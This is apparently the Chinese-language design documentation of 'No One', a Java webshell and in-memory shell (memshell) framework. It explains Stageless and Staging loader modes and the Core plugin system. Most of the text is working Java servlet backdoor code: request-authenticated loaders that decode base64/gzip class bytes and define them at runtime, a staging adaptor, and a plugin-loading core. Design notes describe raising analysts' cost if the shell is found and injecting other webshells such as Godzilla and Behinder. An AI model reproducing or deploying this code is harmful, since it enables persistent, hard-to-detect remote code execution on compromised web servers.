



## Core 加载的两种方式

No One Core 参考 C2 的 loader/beacon 中的 Payload Type，支持 Stageless 和 Staging 模式

### Stageless 模式

直接将 Core 的代码内置在 Loader 中，通信时直接使用 Core Profile 通信即可，Loader 仅是一个加载 Core 并直接填充 Core Profile 逻辑，将流量解包将数据交由 Core 进行处理。

**优点**：平台发送流量只需要直接使用 Core Profile Client 进行通信，不需要判断 Core 是否存在，状态简单

**缺点**：Core 直接内置在 Loader 中，如果拿到 webshell 或 dump 出 memshell 能直接拿到 Core 代码

```java
@Override
public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
    HttpServletRequest request = (HttpServletRequest) req;
    HttpServletResponse response = (HttpServletResponse) res;
    try {
        // Core Profile 通信流量是否命中
        if (isAuthed(request)) {
            ServletOutputStream responseOutputStream = response.getOutputStream();
            try {
                // 初次加载自动初始化 Core
                if (coreClass == null) {
                    synchronized (NoOneStagelessServlet.class) {
                        if (coreClass == null) {
                            byte[] bytes = gzipDecompress(decodeBase64(coreGzipBase64));
                            coreClass = new NoOneStagelessServlet(Thread.currentThread().getContextClassLoader())
                                    .defineClass(bytes, 0, bytes.length);
                        }
                    }
                }
                byte[] payload = transformReqPayload(getArgFromRequest(request));
                Object httpChannelCore = coreClass.newInstance();
                ByteArrayOutputStream outputStream = new ByteArrayOutputStream();
                // 调用 Core 进行数据处理
                httpChannelCore.equals(new Object[]{request, response});
                httpChannelCore.equals(new Object[]{payload, outputStream});
                byte[] data = wrapResData(transformResData(outputStream.toByteArray()));
                responseOutputStream.write(data);
            } catch (Exception e) {
                responseOutputStream.write(getStackTraceAsString(e).getBytes("UTF-8"));
            }
            wrapResponse(response);
            responseOutputStream.flush();
            responseOutputStream.close();
        }
    } catch (Throwable ignored) {
    }
}
```

在 Java MemShell 中选择 Stageless 模式下，选择 Core Profile 进行生成



在 WebShell 中当前仅支持 Stageless 模式，Profile 默认就是 Core Profile



### Staging 模式

类似哥斯拉的模式，生成时 Loader 不包含 Core 的代码，仅用于后续连接时加载 Core 并执行 Core 的逻辑，不过和哥斯拉的区别是 Loader 和 Core Profile 可以完全不一样，
Core 加载之后 Loader 只做请求转发给 Core 上，不进行任何处理。

**优点**：

1. Core 完全由后续连接加载，即使 webshell 或 memshell 发现也需要额外的步骤才能拿到 Core 逻辑，并且 Loader Profile 和 Core Profile 不一样，增加分析成本。
2. Loader 加载完 Core 之后只做流量转发，这样能支持类似 beacon，Loader 可注入除了 No One Core 以外的，例如 Behinder/Godzilla/Suo5 都可以。

**缺点**：

1. Core 拥有自己独立的 Profile，因此在创建 Shell 的时候需要额外选择 API 类型，比 Stageless 需要更多信息，
比如 Servlet/Netty/Reactor/WebSocket 等等，因为通信 API 都不一样。
2. 平台在通信过程中，还需要额外判断 Core 是否已存在，同时管理 Loader Profile Client 和 Core Profile Client。

```java
@Override
public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
    HttpServletRequest request = (HttpServletRequest) req;
    HttpServletResponse response = (HttpServletResponse) res;
    try {
        if (adaptorClass != null) {
            // 如果 Core 存在直接将流量转发给 Core
            if (adaptorClass.newInstance().equals(new Object[]{req, res})) {
                return;
            }
        }
        // 进入 Loader Profile 进行加载 Core
        if (isAuthed(request)) {
            ServletOutputStream responseOutputStream = response.getOutputStream();
            try {
                // 不允许覆盖 Core
                if (adaptorClass == null) {
                    synchronized (NoOneStagingServlet.class) {
                        if (adaptorClass == null) {
                            byte[] payload = transformReqPayload(getArgFromRequest(request));
                            byte[] bytes = gzipDecompress(decodeBase64(new String(payload, "UTF-8")));
                            adaptorClass = new NoOneStagingServlet(Thread.currentThread().getContextClassLoader())
                                    .defineClass(bytes, 0, bytes.length);
                        }
                    }
                }
                // 使用 Loader Profile 包裹 Core 加载成功的响应
                byte[] data = wrapResData(transformResData("ok".getBytes("UTF-8")));
                responseOutputStream.write(data);
            } catch (Throwable e) {
                responseOutputStream.write(getStackTraceAsString(e).getBytes("UTF-8"));
            }
            wrapResponse(response);
            responseOutputStream.flush();
            responseOutputStream.close();
        }
    } catch (Throwable ignored) {
    }
}
```

当前仅支持部分 Java MemShell 生成 Staging 模式，生成之后点击右边的 Add Shell 会自动将部分数据带过去简化填写



为了保证 Core 的可复用性，在 Staging 模式下连接时投递的 Core 实际上包裹了一层流量 Adaptor 专门处理不同 API 下的 Core Profile，代码和 Stageless 下的 Loader 差不多。

```java
@Override
public boolean equals(Object obj) {
    Object req = ((Object[]) obj)[0];
    Object res = ((Object[]) obj)[1];
    HttpServletRequest request = (HttpServletRequest) req;
    HttpServletResponse response = (HttpServletResponse) res;
    try {
        if (isAuthed(request)) {
            ServletOutputStream responseOutputStream = response.getOutputStream();
            try {
                byte[] payload = transformReqPayload(getArgFromRequest(request));
                if (coreClass == null) {
                    synchronized (ServletAdaptor.class) {
                        if (coreClass == null) {
                            byte[] bytes = gzipDecompress(decodeBase64(coreGzipBase64));
                            coreClass = new ServletAdaptor(Thread.currentThread().getContextClassLoader())
                                    .defineClass(bytes, 0, bytes.length);
                        }
                    }
                }
                ByteArrayOutputStream outputStream = new ByteArrayOutputStream();
                Object httpChannelCore = coreClass.newInstance();
                httpChannelCore.equals(new Object[]{req, res});
                httpChannelCore.equals(new Object[]{payload, outputStream});
                byte[] data = wrapResData(transformResData(outputStream.toByteArray()));
                responseOutputStream.write(data);
            } catch (Throwable e) {
                responseOutputStream.write(getStackTraceAsString(e).getBytes("UTF-8"));
            }
            wrapResponse(response);
            responseOutputStream.flush();
            responseOutputStream.close();
            return true;
        }
    } catch (Throwable ignored) {
    }
    return false;
}
```

## Core 核心逻辑

Core 为了支持各种各样的类型序列化，使用 [TLV](https://en.wikipedia.org/wiki/Type%E2%80%93length%E2%80%93value) 序列化方式

Core 只做四件事情：
1. 加载插件：获取插件字节码进行加载，并返回加载成功响应。
2. 运行插件：指定插件 ID 和插件运行参数运行插件并返回结果。
3. 获取插件状态：用于判断插件是否需要加载或更新。
4. 清除缓存：清空插件，卸载插件 ClassLoader 以及全局缓存。

Core 为了增加更多的可能性：

1. 所有插件都统一注入到一个 ClassLoader 中，方便管理，减少内存占用（ClassLoader 属于大对象），父类加载设置为 Thread.currentThread().getContextClassLoader()，可访问到业务依赖。
2. NoOneCore 继承自 URLClassLoader，方便 jar 依赖注入到 pluginClassLoader 让插件能访问到依赖且不影响业务。
3. 提供 globalCaches 作为插件全局变量存放点，例如将 taskManager，可以将其他插件以异步的形式提交到 taskManager 中（后续可以考虑给 Plugin 增加生命周期来使状态管理更简单）。

```java
public class NoOneCore extends URLClassLoader {
    // pluginName to pluginObject
    public static final Map<String, Object> loadedPluginCache = new ConcurrentHashMap<>();
    public static final Map<String, String> loadedPluginVersionCache = new ConcurrentHashMap<>();
    public static final Map<String, Object> globalCaches = new ConcurrentHashMap<>();

    private static volatile NoOneCore pluginClassLoader;

    private static NoOneCore getPluginClassLoader() {
        if (pluginClassLoader == null) {
            synchronized (NoOneCore.class) {
                if (pluginClassLoader == null) {
                    pluginClassLoader = new NoOneCore(Thread.currentThread().getContextClassLoader());
                }
            }
        }
        return pluginClassLoader;
    }

    @Override
    public boolean equals(Object obj) {
        Object[] ctx = (Object[]) obj;
        if (!(ctx[1] instanceof OutputStream)) {
            req = ctx[0];
            res = ctx[1];
            return false;
        }
        byte[] inputBytes = (byte[]) ctx[0];
        OutputStream outputStream = (OutputStream) ctx[1];
        Map<String, Object> result = new LinkedHashMap<>();
        result.put(CODE, SUCCESS);
        Map<String, Object> args = new HashMap<>();
        try {
            args = deserialize(inputBytes);
        } catch (Throwable e) {
            result.put(CODE, FAILURE);
            result.put(ERROR, getStackTraceAsString(new RuntimeException("args parsed failed, " + e.getMessage(), e)));
        }
        String action = (String) args.get(ACTION);
        if (action != null) {
            try {
                switch (action) {
                    case ACTION_STATUS:
                        result.putAll(getStatus());
                        break;
                    case ACTION_RUN:
                        result.putAll(run(args));
                        break;
                    case ACTION_LOAD:
                        Object loaded = load(args, result);
                        result.put(DATA, loaded != null);
                        break;
                    case ACTION_CLEAN:
                        for (Object service : globalCaches.values()) {
                            try {
                                Map<String, Object> shutdownCtx = new HashMap<>();
                                shutdownCtx.put("op", "shutdown");
                                service.equals(shutdownCtx);
                            } catch (Throwable ignored) {
                            }
                        }
                        globalCaches.clear();
                        loadedPluginCache.clear();
                        loadedPluginVersionCache.clear();
                        pluginClassLoader = null;
                        break;
                    default:
                        result.put(CODE, FAILURE);
                        result.put(ERROR, "action [" + action + "] not supported");
                        break;
                }
            } catch (Throwable e) {
                result.put(CODE, FAILURE);
                result.put(ERROR, getStackTraceAsString(new RuntimeException("action [" + action + "] run failed, " + e.getMessage(), e)));
            }
        }
        try {
            byte[] bytes = serialize(result);
            outputStream.write(bytes, 0, bytes.length);
            outputStream.flush();
            outputStream.close();
        } catch (Throwable e) {
            e.printStackTrace();
        }
        return true;
    }
}
```